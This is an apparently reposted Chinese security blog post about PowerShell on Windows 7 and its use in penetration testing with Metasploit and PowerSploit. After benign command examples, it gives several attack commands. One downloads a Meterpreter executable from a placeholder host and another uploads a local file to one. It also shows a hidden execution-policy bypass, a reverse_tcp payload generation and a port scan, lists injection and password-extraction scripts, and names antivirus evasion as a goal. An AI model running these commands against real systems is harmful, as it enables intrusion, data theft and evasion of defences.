 # 与Powershell

 **大家都在说windows7的防护水平大大高于windows xp了，但是并不都是如此，Win7下给出现了一个强大高级cmd————&gt;powershell。**该shell最大的特点就是支持脚本编程，酷似linux的bash（准确说应该是各种sh），下面就简要介绍下它的功能，以及如何与metasploit配合\(今年北美著名的安全会议[Derbycon](https://www.derbycon.com/)给出的，这个会议是美国国防部下属的DARPA资助的，内容非常好，建议大家关注\)：

##  基本命令

 开始–&gt;运行–&gt;powershell 开启powershell界面

 get-command \*-service 获得服务相关的命令   
 get-help get service 获得命令的帮助

 支持脚本文件的命令集 脚本的后缀名为.PS1,支持管道：

##  powershell使用示例：

 停止所有目前运行中的以”p”字符开头命名的程序：

```bash
PS> get-process p* | stop-process
```

 停止所有目前运行中的所有使用大于1000MB存储器的程序：

```bash
PS> get-process | where { $_.WS -gt 1000MB } | stop-process
```

 计算一个目录下文件内的字节大小：

```bash
PS> get-childitem | measure-object -property length -sum
```

 等待一个叫做”notepad”的程序运行退出：

```bash
PS> $processToWatch = get-process notepad
PS> $processToWatch.WaitForExit()
```

 将”hello, world!”字符串转为英文大写字符，成为”HELLO, WORLD!”：

```bash
PS> “hello, world!”.ToUpper()
```

 在字符串”string”的第1个字符后插入字符串”ABC”，成为”sABCtring”：

```bash
PS> “string”.Insert(1, “ABC”)
```

 订阅一个指定的RSS Feed并显示它最近8个主题：

```bash
PS> $rssUrl = “http://blogs.msdn.com/powershell/rss.aspx”
PS> $blog = xml.DownloadString($rssUrl)
PS> $blog.rss.channel.item | select title -first 8
```

###  使用powershell执行shellcode

 使用dns payloads的方式通过powershell执行meterpreter，达到免杀、过IPS的效果

###  使用powershell进行文件的上传、下载和端口扫描

 下载

```text
ps>Import-Module BitsTransfer
ps>Start-BitsTransfer http://ip/meter.exe c:\meter.exe
```

 上传

```text
Start-BitsTransfer -Source c:\upload.txt -Destination http://ip/upload/upload.txt -transfertype upload
```

 端口扫描

```text
ps c:>1..1024 | %{ echo ((new-object Net.Sockets.TcpClient).Connect(“10.1.1.14”,$)) “$ is open”} 2>$null
25 is open
```

##  powersploit 堪比meterpreter的后渗透攻击框架

 Carlos Perez国外大牛设计了基于powersploit的渗透脚本集合，用于授权渗透测试使用。。。。（大家都知道怎么回事），里面的主要包含了一下几个脚本

```bash
Inject-Dll(注入dll到指定进程)
Inject-Shellcode（注入shellcode到执行进程）
Encrypt- Script（文本或脚本加密）
Get-GPPPassword（通过groups.xml获取明文密码）
Invoke- ReverseDnsLookup（扫描 DNS PTR记录）
```

 具体的代码就请查看作者的github代码仓库：[powerexploit](https://github.com/mattifestation/PowerSploit)

##  Metasploit与powershell结合

 西点军校毕业的这货[Chris Gates](http://carnal0wnage.attackresearch.com/)说windows就是他的backdoor，为什么？ 首先就是powershell提供了上传和下载功能，这在渗透过程中能省很多事，其次他说没有见过哪些Meterpreter的事Powershell做不了的，举例：

```bash
* Powershell hashdump（in SET）
* Powershell exec method in MSSQL_Payload * PowerSploit(上面提到了)
```

 绕过powershell本身的权限限制：

```bash
-powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive —NoProfile -WindowStyle Hidden —File “C:\do_neat_ps_shit.ps1”
```

 使用Metasploit生成Powershell

```bash
msf_ payload(reverse_tcp) > generate -t psh -f powershellexec.ps1
```

 使用批处理文件从Meterpreter中运行Powershell

```bash
c:\type run_ps.bat powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -File C:\ipinfo2.ps1
```

 示例：

```bash
meterpreter > execute -H -f cmd.exe -a ‘/c C:\runps.bat’ Process 28536 created. meterpreter>
–snip–
```

##  总结

 windows7下的powershell功能不可小觑，应该一起广大安全爱好研究这的研究和重视，后面还会给出相关powershell安全研究的讨论。最后推荐两个博客：  
 [中文博客](http://www.pstips.net/)：研究powershell中文博客,包含powershell的命令解释、脚本编程的各种小技巧  
 [英文博客](http://www.exploit-monday.com/)：国外某大牛博客，对powershell有很多安全方面的研究，国外黑客大会推荐

 原文链接  
 http://seckungfu.com/blog/2012/10/10/new-post/

